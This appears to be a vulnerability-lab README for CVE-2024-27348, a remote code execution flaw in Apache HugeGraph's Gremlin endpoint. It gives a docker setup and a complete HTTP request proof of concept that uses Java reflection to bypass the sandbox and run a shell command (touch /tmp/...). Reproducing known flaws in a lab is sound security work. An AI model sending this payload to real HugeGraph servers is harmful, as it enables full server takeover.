


# Apache HugeGraph Remote Command Execution Vulnerability (CVE-2024-27348)

HugeGraph is a user-friendly, efficient, and universal graph database that implements the Apache TinkerPop3 framework and is compatible with the Gremlin query language.
In versions prior to Apache HugeGraph 1.3.0, there is a remote code execution (RCE) vulnerability. Attackers can bypass sandbox restrictions through Gremlin and execute any command to gain full control of the server.

Reference:

- https://blog.securelayer7.net/remote-code-execution-in-apache-hugegraph/
- https://github.com/apache/incubator-hugegraph
- https://hugegraph.apache.org/
- https://github.com/kljunowsky/CVE-2024-27348

## Start Vulnerability Environment

Execute the following command to start the vulnerability environment:

```
docker compose up -d
```

After startup, you can see the web page by accessing ```http://your-ip:8088/```.

## Vulnerability Reproduction

Intercept the request through Burp Suite and exec the following PoC:

```
POST /gremlin HTTP/1.1
Host: tonghuaroot.local:8088
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Length: 758

{   

    "gremlin": "Thread thread = Thread.currentThread();Class clz = Class.forName(\"java.lang.Thread\");java.lang.reflect.Field field = clz.getDeclaredField(\"name\");field.setAccessible(true);field.set(thread, \"SL7\");Class processBuilderClass = Class.forName(\"java.lang.ProcessBuilder\");java.lang.reflect.Constructor constructor = processBuilderClass.getConstructor(java.util.List.class);java.util.List command = java.util.Arrays.asList(\"touch\", \"/tmp/tonghuaroot\");Object processBuilderInstance = constructor.newInstance(command);java.lang.reflect.Method startMethod = processBuilderClass.getMethod(\"start\");startMethod.invoke(processBuilderInstance);",

    "bindings": {},

    "language": "gremlin-groovy",

    "aliases": {}

}
```



Enter the container with ```docker compose exec hugegraph bash```, you can see that ```/tmp/tonghuaroot``` has been successfully created:


